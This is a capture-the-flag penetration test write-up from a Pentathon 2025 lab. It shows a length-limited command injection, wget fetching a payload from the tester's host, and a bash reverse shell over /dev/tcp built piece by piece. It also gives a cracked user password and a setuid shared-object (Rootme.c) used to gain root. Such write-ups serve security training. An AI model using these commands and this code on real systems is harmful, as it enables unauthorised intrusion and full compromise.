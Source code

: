 <p align="center">NCIIPC-AICTE

<p align="center">Pentathon 2025

  

<p align="center">Vulnerability Assessment and Penetration Test Report

  

<p align="center">May 03, 2025

<p align="center">Name: Jay Shah

<p align="center">jayshah-551-SLI13</p>


Got the IP via netdiscover-

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd_uLVhB5HNYam-Ua2O9A6zxzshyemjfbkA10Rhgzy4noyxrNABy9EPtFcK6QvUPq_NpEWqGn4xbbGTdP-XMP8JmpwJBgjB5ZoP4b1rhTGG6PBDzK1JpYoNxH641px0uAdgjBga4Q?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Upon running an nmap scan, we get the following results -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXc_hDpu7vrhhPTzIeijdrafUs3vwbCHIcuQc931B4SN4mLvpDI9GhI8qpsyFkq0hwHGk_qyres9rxvrCCtpWOHYLA8iM3mtX4fqGd6CmsqfC0yA25m7eKOWZ_CNiL6FTsBpr7YORA?key=DDFu3ZnUe63PYT0gtvO9EkZq)

On the web server, we see this -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf60H18MAFB_fYzXRACl-vCDfIm_CVh9MIbZBIgUzYLfV2j2ZrldXGH1HewghvW5tKhd3aamTnTaPLMXfbgj_izPYICqpVE5TGrQ48elUC1Ay9sz9HMXahHNwzSBxpvE1pAjzm8bQ?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Which conveniently tells us that it is a command injection vulnerability and needs to be under 32 characters.

After some testing, we have a PoC - t; id; t

Which reveals -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeZJ2aBZTwx7Q0Ur4JONgVhmFEGe4c-8ca0WmBGzE7w6zbvtKqt-fo5ATp9k1oOHrgB1dxJ4LKZ86NsPARR08V7CbXpp9UnwEG-wmWqEV_-PBUfDydqbEf6v_X-1qCP16p7N9ui?key=DDFu3ZnUe63PYT0gtvO9EkZq)

We are in /var/www/html so it should be easy to upload a shell payload by hosting it on my machine given the 32 character file limit.  
  
Upon entering this payload -

t; wget 192.168.230.132/shell; t  
  
We see the following get request made indicating it was successful-

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcTe7mTQyn67sMFNUHC-BU0v4qVeYBUqPBNLG9nOf1koboTnHYxbzulCYC9VubJTRKSiv-wb9Gzr8kLj7rG7zextmq1KLLQXMrZKJAJHklm8AYLRuMfBnpP7plcUJTYF1sIcv94?key=DDFu3ZnUe63PYT0gtvO9EkZq)

After this, it took quite a while since we are only able to write at /tmp destination. So with the limited number of characters I created the payload piece by piece as follows -

t;printf 'bash -i'>>/tmp/x;t

t;printf ' >& /de'>>/tmp/x;t

t;printf 'v/tcp/1'>>/tmp/x;t

t;printf '92.168.'>>/tmp/x;t

t;printf '230.132/49 '>>/tmp/x;t

t;printf '0>&1'>>/tmp/x;t

t;sh /tmp/x;t

And since sh here -

t;sh /tmp/x;t

 did not work, I used bash, and got the webshell -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdATbgwErSEi9frSq3cOZ4cOucnBqi29YmX3ETonjg1pAk_-2sjH50hGaUFeQZen08ANNKjrYYFQPy9E-_kvA5o31yk9-ZDniYLjz03fo77PLCshsjbvBm22AKWAa0223C-g3ZDqA?key=DDFu3ZnUe63PYT0gtvO9EkZq)

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfG-ANDpaoz666GaRJWkQtWyC0OeaGdEvS370cUdvNzNGVjNFRUuqKY2iChWUUgLcivYP7D509MEXquXVxEz5ooix802LE9n_9V2N8GWl4Di1xXsOe1UgRYq93MXZRaSd1ueA-9Nw?key=DDFu3ZnUe63PYT0gtvO9EkZq)

And after traversing, we get the user flag -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcWX7TaSgIq1HU7zXcjI4bsjddubp96UnWRkWnSivm_pR4RIapAzYqNOg8Jvdu7pk-m1hXPIkgt3KtgWHUjhcvsbdZssOMNmiUIA6nEZ6ktNbNlrHranbvz2YqvM57kn05xN8DATQ?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Had also seen a passfile in /var/www -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf3gnnFRqz1w0ZoFz8wgR3sd6zbSXwW9eX8VuCTxDUkjFkoNbAyJ-wupuEXt0j7Izbiz--GqFOIjQDOEvzG2IALzQwBfGPseLgO_k-j7T2y6JAWVnSrfCegT0tvdD8R3SQ0xZQ0CQ?key=DDFu3ZnUe63PYT0gtvO9EkZq)

After trying some online decrypters for a while I switched to classic john and got the decrypted password for pumba user -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe3-yof7BEAcQh5TQlJb30xMKBqP0dLIL55FAkYGiVldySjprkSfdVFjb5SvHPeNC98D8w1yzvnE6p0JBo7_Duz1ECIQM86O1NtXsqAIwN_4cljZaRc20YBvXd9-KIYikRv4RC0EQ?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Username- pumba

Password - m33andshaiza

Now we ssh into it as pumba -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfqMOad8DQV9XM8fVnTBWGHGWAT8wdY7Oy7biNBfUoe9tCAI__usG2J67y_54LbjgWSFOx6t-o0byEs5roS5lqqAEl1JiUM4rDBDE-pwbeAFabBs4trZ25qJdcFRf1z3XnS-6RHCw?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Running linpeas.sh again  -

After looking for a while we struck gold -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd7CRfFB9qI4bieN5RL_ILGrNsBeHvmNvVdJvyHoh0KLPsqHd1xuTfg_b-jM2a2DM1lNmeWmEAWi-HbFguA31KLHjcs1CFvG8H_WaZVz3HW3-J9XtBk92dbIuqV3cQ9riEaQ7hv?key=DDFu3ZnUe63PYT0gtvO9EkZq)

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfGs3pxY5hFUUj-x8wN1bC6WeUZ0j4M3hw41-mRWdd6pm_J_UHr3igqJj-BHWWAqpYxSPJ5PWBNwqfmqiWRAAtAL8kVlxnOsTNH24pWDFIP67j3YOtVgoM0_2hJ49JkBpV48hRB?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Rootme.c -

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

void \_init() {

setuid(0); setgid(0);

system("/bin/bash");

}

And done! We are root-

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfJsYCQ0katTTEUNLIM7AwVusJ9qigMEyJxVCagLWE7-fsrEZiTzeXbQBlAbgvsHQTNo2s6rLIeuOlgB_JB4jNamhAVaEWjpkXhc1Uj5WkAKCUVaYR1rPds6gv3a7AqfPyNv0KelQ?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Root flag listed.
